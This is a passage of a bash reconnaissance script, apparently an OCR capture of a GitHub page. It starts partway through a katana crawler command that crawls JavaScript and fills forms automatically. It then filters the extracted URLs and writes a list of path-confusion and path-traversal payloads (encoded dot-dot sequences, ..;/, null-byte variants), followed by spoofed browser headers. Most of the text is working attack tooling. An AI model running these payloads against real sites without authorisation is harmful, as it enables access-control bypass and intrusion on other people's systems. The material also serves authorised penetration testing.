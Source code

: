 ```bash
       -xhr-extraction \
       -automatic-form-fill \
       -silent \
       -strategy breadth-first \
       -js-crawl \
       -extension-filter jpg,jpeg,png,gif,bmp,tiff,tif,webp,svg,ico,css \
       -headless --no-sandbox \
       -known-files all \
       -field url \
       -sf url

# Filter and clean extracted URLs
grep -Ev '\.js$|&amp' "$KATANA_OUTPUT" | sort -u > "$URLS_FILE"

# Define path confusion payloads
cat > $PAYLOAD_FILE << EOF
%2e%2e
%2F
%2e%2F
%2f%2e
%2e%2e%2f
%2e%2e%2f%2e%2e%2f
%2f%2e%2e%2f
%2f%2e%2e
%252e%252e%252f
..;/
.;/
../
..../
....//
/..;/
/../
/..%00/
/./
%3f
%5c
%252f
/%2e%2e/
;/../
././
%5c%2e%2e%5c
..;/..
EOF

# User-Agent and headers
USER_AGENT="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0"

HEADERS=(
    "User-Agent: $USER_AGENT"
    "Accept: */*"
    "Accept-Language: en-US,fa-IR;q=0.5"
    "Accept-Encoding: gzip, deflate, br, zstd"
    "Connection: keep-alive"
    "Upgrade-Insecure-Requests: 1"
    "Sec-Fetch-Dest: script"
    "Sec-Fetch-Mode: no-cors"
    "Sec-Fetch-Site: cross-site"
    "DNT: 1"
    "Sec-GPC: 1"
    "Priority: u=0, i"
    "Te: trailers"
)

```